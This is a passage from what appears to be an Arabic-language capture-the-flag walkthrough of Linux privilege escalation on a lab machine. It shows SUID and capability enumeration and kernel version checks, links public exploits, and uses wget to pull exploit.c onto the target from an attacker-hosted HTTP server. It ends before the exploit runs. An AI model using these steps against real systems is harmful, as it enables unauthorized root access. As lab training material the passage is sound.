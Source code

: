 ```bash
   262232     44 -rwsr-xr-x   1 root     root        44664 Mar 22  2019 /bin/su
   262214     64 -rwsr-xr-x   1 root     root        64424 Jun 28  2019 /bin/ping
   262205     44 -rwsr-xr-x   1 root     root        43088 Mar  5  2020 /bin/mount
   262249     28 -rwsr-xr-x   1 root     root        26696 Mar  5  2020 /bin/umount
   393484     60 -rwsr-xr-x   1 root     root        59640 Mar 22  2019 /usr/bin/passwd
   393413     76 -rwsr-xr-x   1 root     root        75824 Mar 22  2019 /usr/bin/gpasswd
   417493     12 -rwsr-xr-x   1 root     root        10312 Sep 19  2022 /usr/bin/vmware-user-suid-wrapper
   409163     20 -rwsr-xr-x   1 root     root        18448 Jun 28  2019 /usr/bin/traceroute6.iputils
   421383     40 -rwsr-xr-x   1 root     root        37136 Nov 29  2022 /usr/bin/newuidmap
   427013    148 -rwsr-xr-x   1 root     root       149080 Apr  4  2023 /usr/bin/sudo
   421382     40 -rwsr-xr-x   1 root     root        37136 Nov 29  2022 /usr/bin/newgidmap
   393473     40 -rwsr-xr-x   1 root     root        40344 Mar 22  2019 /usr/bin/newgrp
   393348     76 -rwsr-xr-x   1 root     root        76496 Mar 22  2019 /usr/bin/chfn
   393350     44 -rwsr-xr-x   1 root     root        44528 Mar 22  2019 /usr/bin/chsh
   417510    428 -rwsr-xr-x   1 root     root       436552 Mar 30  2022 /usr/lib/openssh/ssh-keysign
   393675     44 -rwsr-xr--   1 root     messagebus    42992 Jun 11  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
   393685     12 -rwsr-xr-x   1 root     root          10232 Mar 27  2017 /usr/lib/eject/dmcrypt-get-device
   397231      4 drwsrwxrwx   2 root     root           4096 May  7  2024 /usr/share/dbus-1/system-services

beth@london:~$ getcap -r /* 2>/dev/null
/usr/bin/mtr-packet = cap_net_raw+ep
```
ماعندنا أي شي مثير، خلينا نشوف إصدار sudo & kernel:
```bash
beth@london:~$ sudo --version
Sudo version 1.8.21p2 # Not Expolitable!!
Sudoers policy plugin version 1.8.21p2
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.21p2

beth@london:~$ uname -a
Linux london 4.15.0-112-generic # This is the kernel version, let's  check for exploits
```
يوم نبحث عن [kernel version 4.15.0-112 privilege escalation](https://www.google.com/search?client=firefox-b-d&q=kernel+version+4.15.0-112+privilege+escalation) راح تطلع لنا طريقتين، [polkit](https://www.exploit-db.com/exploits/47167) & [Race Condition](https://github.com/zerozenxlabs/ZDI-24-020/tree/main) polkit غير موجودة عندنا في السيرفر، راح نستخدم طريقة. في الجهاز حقي race condition
```bash
$ git clone https://github.com/zerozenxlabs/ZDI-24-020.git

$ cd ZDI-24-020/

$ python -m http.server 8081
```
في سيرفر التحدي:
```bash
beth@london:/~ cd /tmp
beth@london:/tmp mkdir exploit ; cd exploit
beth@london:/tmp/exploit$ wget http://10.21.157.83:8081/exploit.c
--2025-04-13 05:39:14--  http://10.21.157.83:8081/exploit.c
Connecting to 10.21.157.83:8081... connected.
HTTP request sent, awaiting response... 200 OK
Length: 36482 (36K) [text/plain]
Saving to: ‘exploit.c’

exploit.c               100%[============================>]  35.63K  44.6KB/s    in 0.8s    

2025-04-13 05:39:16 (44.6 KB/s) - ‘exploit.c’ saved [36482/36482]
```